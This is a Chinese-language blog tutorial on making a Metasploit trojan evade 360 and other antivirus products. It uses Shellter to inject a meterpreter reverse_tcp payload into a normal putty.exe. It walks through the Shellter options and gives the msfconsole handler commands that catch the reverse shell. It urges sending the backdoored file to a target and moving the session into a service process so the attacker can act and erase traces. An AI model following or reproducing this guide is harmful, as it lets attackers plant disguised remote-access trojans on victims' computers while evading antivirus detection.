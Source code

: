 ```yaml
---
title: msf+shellter免杀360
date: 2016-08-07 13:27:54
tags: hack
---
```

## 简介
要绕过杀毒软件，达到免杀的效果，就要明白一个问题，杀毒软件的原理是什么？这个问题水很深，涉及很多知识，但是一个比较通俗的解释就是病毒特征码，很多病毒都拥有其特征码，一些知名病毒的特征码被记录在杀毒软件的病毒库中，如果杀毒软件的扫描器扫描你的软件，发现跟病毒库中的特征码有相同的，那么就判断你是病毒，除了特征码，就是杀毒软件扫描器的算法了，如何扫描你的软件也是很大的学问，自己能力有限，不知道理解是否正确，可以看看下面几篇博文来加深理解!

[“杀毒软件工作原理 及 现在主要杀毒技术”](http://blog.csdn.net/zhangnn5/article/details/6437371)

[“杀毒软件的杀毒原理”](http://www.doc88.com/p-3089076929073.html)

## 什么是shellter
shellter是一款动态Shellcode注入工具，也就是让你的攻击代码不具有规则性的注入到正常的可执行文件中，因为是**动态**的，说明代码注入不可能存在规则严格的地方，如可执行文件的入口点！！

比较蛋疼的是，最新的kali已经正式集成shellter，我做实验的时候还不知道，所以，用的是window版的shellter！！

## 先看看此前的ayu.exe
我们看看之前一篇博文生成的ayu.exe的免杀能力，我们用了x86/shikata_ga_nai这种编码方式，其实就是msfconsole的一种避开杀毒软件的方式，因为我们用的是个人版msfconsole，这种编码方式是开源的，所以杀毒软件公司也可以免费拿它的源码来分析，所以免杀效果不理想，可能是一种在优化这种编码的算法，所以还是有一定的免杀效果，如果你玩的是企业版msfconsole，免杀效果是很强的，问题是，你要有钱！

将ayu.exe上传到VirSCAN，这个网站集成了很多知名的杀毒软件引擎，用来判断你上传的文件是否可能是恶意软件
![在virscan上测试](http://obfs4iize.bkt.clouddn.com/%E5%9C%A8virscan%E4%B8%8A%E6%B5%8B%E8%AF%95.png)

virscan给出的结果是危险
![ayu是危险病毒](http://obfs4iize.bkt.clouddn.com/ayu%E6%98%AF%E5%8D%B1%E9%99%A9%E7%97%85%E6%AF%92.png)

但我发现，奇虎360竟然没有报毒，一脸懵逼。

![360没有报毒](http://obfs4iize.bkt.clouddn.com/360%E6%B2%A1%E6%9C%89%E6%8A%A5%E6%AF%92.png)

难道360这么菜了，我表示不信，于是我在本地用360杀毒来证实一下
![360试杀](http://obfs4iize.bkt.clouddn.com/360%E8%AF%95%E6%9D%80ayu.png)
![360报毒](http://obfs4iize.bkt.clouddn.com/360%E6%8A%A5%E6%AF%92.png)
结果，不出所料的报毒，想了想，可能是360安全卫士不会报毒，因为360安全卫士功能比较全面，杀毒方面可能比较弱，360杀毒来取代其杀毒方面！！

## 进行免杀
现在我们利用shellter来对木马进行免杀

我下载了[shellter](https://www.shellterproject.com/Downloads/Shellter/Latest/shellter.zip)的windows程序

下载我们要注入的软件，我们这里选择putty.exe

什么是putty，其实putty就是一个用于ssh连接的普通软件
百度一下putty，就可以直接下载，当然putty这个软件是没毒的，接下来为其注入木马后门

首先，解压刚刚下载的shellter的压缩包，将putty.exe放入shellter的解压文件夹内
![将putty放入shellter文件夹中](http://obfs4iize.bkt.clouddn.com/%E5%B0%86putty%E6%94%BE%E5%85%A5shellter%E6%96%87%E4%BB%B6%E5%A4%B9%E4%B8%AD.png)

双击shellter，运行它
第一项，要你选择操作模式，这里选a
第二项，要你选谁是否开启在线版本检查，这里选n
然后选择要注入的目标，这里为putty.exe
![开启shellter](http://obfs4iize.bkt.clouddn.com/%E5%BC%80%E5%90%AFshellter.png)

我们会发现注入语句一直在增加，一般需要几十秒钟就准备好了
![注入语句一直在增加](http://obfs4iize.bkt.clouddn.com/%E6%B3%A8%E5%85%A5%E8%AF%AD%E5%8F%A5%E4%B8%80%E7%9B%B4%E5%9C%A8%E5%A2%9E%E5%8A%A0.png)

然后会要你选择是否要使用隐身模式，这里选y
这里的隐身模式就是不会影响到软件的正常时候同时开启木马后门，让人进入你的电脑，也就是说，putty用于连接ssh的功能依旧可以用，只是被绑上了而外的木马功能！！

![选择mode](http://obfs4iize.bkt.clouddn.com/%E9%80%89%E6%8B%A9mode.png)

选择一个攻击载荷(payloads)，这里的攻击载荷在msfconsole中都可以找到

custom表示自定义要注入的代码，这个功能我也没用过

我们选择L，然后选择1，也就是配置比较简单了meterpreter_reverse_tcp这个攻击载荷

跟上篇博文一样，要为攻击载荷配置LHOST，也就是入侵者IP和LPORT入侵者端口

![设置一下](http://obfs4iize.bkt.clouddn.com/%E8%AE%BE%E7%BD%AE%E4%B8%80%E4%B8%8B.png)

然后我们等待一下，出现这么画面，那么就说明攻击载荷注入成功！
![注入成功](http://obfs4iize.bkt.clouddn.com/%E6%B3%A8%E5%85%A5%E6%88%90%E5%8A%9F.png)

此时我们得到一个新的putty.exe，虽然它的名字没有变，但是它已经携带木马了，接下来就各显神通的发送给你要渗透的人！！

进入kali，开启msfconsole

在命令终端输入如下命令：
```
	root@kali:~#msfconsole
	msf > use exploit/multi/handler
	msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
	这个攻击载荷就是刚刚我们在shellter携带的攻击载荷
	msf exploit(handler) > set LHOST 192.168.88.128
	msf exploit(handler) > set LPORT 2223
	msf exploit(handler) > exploit
	利用一下
```
![利用一下](http://obfs4iize.bkt.clouddn.com/%E5%88%A9%E7%94%A8%E4%B8%80%E4%B8%8B.png)

当带有木马的putty.exe被点击打开时，比如目标要使用putty的ssh，打开了putty。

![putty程序开启](http://obfs4iize.bkt.clouddn.com/putty%E7%A8%8B%E5%BA%8F%E5%BC%80%E5%90%AF.png)

那么我们就可以获得远程控制会话！！
![利用成功_1](http://obfs4iize.bkt.clouddn.com/%E5%88%A9%E7%94%A8%E6%88%90%E5%8A%9F_1.png)

此时我们再用virscan来扫描一下，看看有多少个杀毒引擎会报毒
![putty要警惕](http://obfs4iize.bkt.clouddn.com/putty%E8%A6%81%E8%AD%A6%E6%83%95.png)
发现只有三个杀毒引擎报毒
![只有3个报毒](http://obfs4iize.bkt.clouddn.com/%E5%8F%AA%E6%9C%893%E4%B8%AA%E6%8A%A5%E6%AF%92.png)

木马的隐藏性大大增强了，国内的主流杀毒软件都被绕过，我们再在本地用360杀毒软件扫描一下
![绕过360_1](http://obfs4iize.bkt.clouddn.com/%E7%BB%95%E8%BF%87360_1.png)

因为我们的木马进程是寄托在putty这个进程下的，如果putty一关闭，我们就失去了这个会话了，所有我们要做的第一件事是将它转移到不会在短时间内关闭的进程中!
![移动进程](http://obfs4iize.bkt.clouddn.com/%E7%A7%BB%E5%8A%A8%E8%BF%9B%E7%A8%8B.png)

这里我把它移动到进程号为516的一个服务中，确保我有足够的时间做坏事和擦除自己留下的痕迹！！

其实kali中也一样可以运行shellter，需要wine的支持

```
 root@kali：~# apt-get update
 更新一下apt-get软件管理仓库
 root@kali：~# apt-get install shellter
 安装shellter，之前最好装了wine
```
![在kali上安装shellter](http://obfs4iize.bkt.clouddn.com/%E5%9C%A8kali%E4%B8%8A%E5%AE%89%E8%A3%85shellter.png)
安装完后，直接在命令中输入shellter

可以看看这个[视频](https://www.nettitude.co.uk/wp-content/uploads/2015/06/Installing-Using-Shellter-v3.1-in-Kali-Linux1.mp4)，手把手教你shellter+msfconsole一条龙

**用代码创造乐趣---ayu**

[msfconsole命令大全](https://www.91ri.org/8476.html)